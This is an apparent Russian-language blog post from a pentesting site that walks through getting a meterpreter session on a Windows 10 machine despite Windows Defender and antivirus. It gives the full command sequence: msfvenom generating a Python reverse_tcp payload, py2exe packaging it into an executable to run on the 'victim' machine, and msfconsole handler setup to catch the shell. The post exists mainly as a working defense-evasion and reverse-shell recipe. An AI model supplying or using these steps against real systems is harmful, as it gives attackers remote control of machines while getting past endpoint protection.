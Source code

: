 ```yaml
---
layout: post
categories: articles_rus
tags:
  - python
  - rev_shell
  - meterpreter
published: true
---
```


# Оглавление
{:.no_toc}

* toc
{:toc}

# Введение

Итак ситуация, есть возможность загрузить на тестируемую в рамках пентеста или другой легимитивной деятельности Windows машину файл и даже возможно исполнить его. Если мы говорим об последней, десятой версиии ОС то мы столкнёмся с местнымм его защитником Windows Defender, так же велика вероятность наткнуться на антивирус. В такой ситуации очень удобный и расширяемый meterpreter не сможет работать, какая есть альтернатива? 

## Python
{:id="python"}

Вот и ответ, использование Python в связке с metasploit и msfvenom позволяет нам получить достойную альтернативу классическому meterpreter с большинством его удобных функций. Правда некоторыми придется пожертвовать, не будет возможности использовать такие команды как getsystem и нельзя будет мигрировать в процесс.


# Начинаем

Общая схема такова: мы генерируем python код с помощью msfvenom, "скармливаем" его py2exe, полученый бинарник запускаем на машине жертвы и ловим сессию.
<br><br>
Для начала установим py2exe под 3.4 версию так как всё что выше не поддерживается.
~~~
pip install py2exe
~~~
Или, если вы как и я любите обновляться
~~~
python -3.4 –m pip install py2exe
~~~

<br><br>

Далее создаём .py код:
~~~
msfvenom -p python/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw > payload.py
~~~

К коду необходимо добавить import getpass который msfvenom по умолчанию почему-то не делает.

<br><br>


Делаем exe:
<br>
~~~
python34 -m py2exe.build_exe payload.py --bundle-files 0
~~~


И запускаем его на машине жертвы предварительно запустив handler:<br>
~~~
msfconsole
use exploit/multi/handler
set PAYLOAD python/meterpreter/reverse_tcp
set lhost eth0
set lport <PORT>
run
~~~

И получаем коммандную оболочку:

![Python_shell]({{ site.baseurl }}/assets/img/posts_rus/python_shell.jpg){:class="img"}

# Заключение
{:id="end"}

Простой и эффективный способ борьбы с Windows Defender если не хочется терять удобный и привычный функционал meterpreter в угоду более нативным решениям, как например ssh или telnet. 
<br><br>